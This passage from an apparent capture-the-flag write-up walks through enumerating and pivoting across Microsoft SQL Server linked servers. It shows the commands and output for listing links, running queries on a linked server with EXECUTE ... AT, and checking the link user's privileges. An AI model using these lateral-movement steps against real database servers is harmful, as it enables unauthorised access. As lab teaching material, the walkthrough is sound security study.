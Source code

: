### Linked Servers

#### Enumeration

[This article](https://blog.netspi.com/how-to-hack-database-links-in-sql-
server/) shows a good walk-through of how to take advantage of SQL Server
links. An SQL Server Link is where an MSSQL server allows a link to an
external data source including other MSSQL servers, Oracle databases, Excel
workbooks, etc. The link describes what resources are accesses and as what
user. That can be taken advantage of if the link is not set up carefully.

The current server is named `POO_PUBLIC`:

    
    
    SQL> select @@servername
    ------------------------------   
    COMPATIBILITY\POO_PUBLIC 
    

To check for linked servers, I’ll query the `sysservers` table (the article
recommends `*`, but I’ll just show the name for readability):

    
    
    SQL> select srvname from sysservers;
    srvname
    ------------------------------   
    COMPATIBILITY\POO_CONFIG
    COMPATIBILITY\POO_PUBLIC  
    

There is another linked remote server, POO_CONFIG.

#### POO_CONFIG

The article uses `openquery` to run queries on other servers. I had mixed
results with that. I found another syntax, `EXECUTE`, to be much more
successful. For example, I can get the server name from POO_CONFIG:

    
    
    SQL> EXECUTE ('select @@servername;') at [COMPATIBILITY\POO_CONFIG];
    ------------------------------   
    COMPATIBILITY\POO_CONFIG 
    

The link is configured to run commands as the `internal_user`:

    
    
    SQL> EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];
    ------------------------------   
    internal_user 
    

Unfortunately, for me, that user is not an admin:

    
    
    SQL> EXECUTE ('SELECT name FROM master..syslogins WHERE sysadmin = ''1'';') at [COMPATIBILITY\POO_CONFIG];
    name
    ------------------------------   
    sa
    